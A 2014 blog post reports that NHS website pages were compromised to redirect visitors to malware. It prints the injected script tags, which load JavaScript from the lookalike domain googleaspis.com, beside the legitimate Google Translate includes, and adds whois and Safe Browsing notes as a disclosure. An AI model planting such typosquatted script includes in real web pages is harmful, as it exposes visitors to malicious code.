```yaml
---
layout: post
title: "NHS Website Hosting Malware"
date: 2014-02-03 10:39:41 +0000
comments: true
author: joseph
categories: 
 - security
tags: 
 - nhs
 - malware
 - javascript
 - compromise
 - security
description: "The NHS website is hosting currently hosting malware. The full extent of the threat is not completely clear, here is some information."
---
```


This morning I was made aware that certain pages of the NHS website - the UK's National Health Service - were hosting malware that was automatically redirecting users to malicious pages. The story broke on the popular news site Reddit, you can see the actual reddit thread [here](http://www.reddit.com/r/unitedkingdom/comments/1wv91h/nhsuk_compromised_many_pages_are_serving_malware/).

The first and most important point is that if you ever find yourself unexpectedly redirected from a page to another page then you should definitely not agree to install any software suggsted by the redirected site. Your safest course of action is likely to close the tab or even your browser as soon as possible and then run a full virus scan after updating your virus software.

###Here is some information on this particular attack

The list of URLs originally shown to be hosting this malware can be found [here](http://pastebin.com/DbvR0iyj).

The attack vector seems to be in a (possibly accidental) mis spelling of the domain name that is hosting some Javascript related to Google Translate. 


####You can see a correct chunk of HTML here:

``` html
<script type="text/javascript" src="/includes/AC_RunActiveContent.js"></script>
<script type="text/javascript" src="//translate.google.com/translate_a/element.js?cb=googleTranslateElementInit"></script><link type="text/css" rel="stylesheet" charset="UTF-8" href="https://translate.googleapis.com/translate_static/css/translateelement.css"><script type="text/javascript" charset="UTF-8" src="https://translate.googleapis.com/translate_static/js/element/main.js"></script>
<script type="text/javascript" src="/includes/translate.js"></script>
```

####And here is the compromised HTML

``` html
<script type="text/javascript" src="//translate.google.com/translate_a/element.js?cb=googleTranslateElementInit"></script>
<script type="text/javascript" src="//translate.googleaspis.com/translate_static/js/element/19/element_main.js"></script>
<script type="text/javascript" src="//translate.googleaspis.com/translate_static/js/element/element.js"></script>
<script type="text/javascript" src="/includes/translate.js"></script>
```

The domain name googleaspis.com is registered by regtons.com and though the [Whois information](http://www.whois.com/whois/googleaspis.com) has the actual domain ownership details obfuscated by a Czech company that protect the actual real ownership details, it does seem that the server and other [internet services](http://www.tcpiputils.com/browse/ip-address/31.170.179.179) are all based in the Czech Republic.

Checking the Google Safe Browsing information, you can see that Google have found [numerous issues](http://www.google.co.uk/safebrowsing/diagnostic?site=hmr.nhs.uk/) on the NHS domains seemingly starting on the 31st of January this year.

It seems that the NHS have now confirmed that they are aware of this issue and are currently taking action to resolve the problem.

It is still not clear exactly how or why this issue cropped up in the first place. If it was an accident, how did it manage to get past what you would expect to be quite rigorous quality assurance processes? If this was a result of a malicious break in, how did they manage to compromise the website in this way and are there any further security issues that we should, as a nation, be worried about?




